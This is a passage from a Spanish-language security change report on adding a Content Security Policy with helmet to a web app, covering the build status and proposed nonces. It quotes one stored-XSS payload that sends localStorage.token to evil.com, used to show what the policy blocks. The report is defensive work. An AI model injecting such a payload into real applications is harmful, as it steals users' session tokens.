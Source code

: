 ### Después (Con CSP):

**Mismo payload:**

```javascript
customer.notes = "<img src=x onerror='fetch(\"https://evil.com?t=\"+localStorage.token)'>";
```

**Con CSP:**
- ❌ Navegador **BLOQUEA** el script inline
- ❌ Navegador **BLOQUEA** el fetch a evil.com
- 📊 Violación reportada al servidor
- ✅ Usuario **PROTEGIDO**
- ✅ Equipo de seguridad **ALERTADO**

---

## 11. Archivos Modificados

| Archivo | Cambios | Líneas |
|---------|---------|--------|
| `src/main.ts` | Configuración CSP en helmet | +22 |

**Total:** 1 archivo, 22 líneas agregadas

---

## 12. Build Status

✅ **Compilación exitosa:**
```bash
webpack 5.100.2 compiled successfully in 3645 ms
```

---

## 13. Próximas Mejoras (Opcional)

### 13.1. CSP Nonces (Para scripts inline necesarios)

```typescript
// Generar nonce único por request
const nonce = crypto.randomBytes(16).toString('base64');

contentSecurityPolicy: {
  directives: {
    scriptSrc: ["'self'", `'nonce-${nonce}'`],
  },
},

// En HTML
<script nonce="${nonce}">
  // Este script inline SÍ se permite
</script>
```

---